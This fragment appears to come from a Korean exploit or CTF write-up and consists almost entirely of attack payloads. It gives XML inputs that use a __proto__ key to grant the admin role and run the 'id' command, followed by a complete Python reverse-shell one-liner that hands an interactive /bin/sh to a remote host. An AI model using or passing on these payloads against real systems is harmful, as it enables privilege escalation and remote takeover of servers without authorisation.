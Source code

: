 `<__proto__><exec>id</exec></__proto__>`
`<__proto__><role>admin</role><exec>id</exec></__proto__>`


리버스 쉘
```
<role>admin</role>
<command>python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'</command>
```
